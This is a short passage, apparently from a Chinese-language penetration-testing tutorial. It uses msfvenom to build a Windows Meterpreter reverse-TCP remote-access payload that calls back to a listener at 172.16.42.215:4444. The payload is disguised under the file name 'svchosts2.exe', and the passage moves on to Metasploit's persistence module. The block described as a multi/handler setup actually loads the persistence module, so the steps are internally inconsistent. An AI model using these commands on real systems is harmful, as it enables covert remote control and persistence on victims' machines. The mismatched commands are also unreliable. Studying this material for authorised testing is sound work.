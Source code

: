 ![](img/891006ee-ba1f-4bba-bb82-27ebdbf6255a.png)

错误表明应用程序 ApacheBench 已崩溃。此计算机上未加载 Apache Web 服务器，因此错误可能来自我们正在使用的 HTTPS 负载。因此，让我们构建另一个有效负载作为 RAT 使用，使用直接 TCP 连接。要从命令行生成有效负载，请运行以下命令：

```
msfvenom -p windows/meterpreter_reverse_tcp --platform windows -f exe -a x86 LHOST=172.16.42.215 LPORT=4444 -o svchosts2.exe

```

![](img/b64246ba-c993-433b-9952-46cb6cad20ed.png)

我们需要为此有效负载设置一个 multi/handler：

```
use post/windows/manage/persistence_exe
set PAYLOAD windows/meterpreter_reverse_tcp
set LPORT 4444
run -j
```

现在使用以下命令返回到持久性模块：

```
use post/windows/manage/persistence_exe  
```
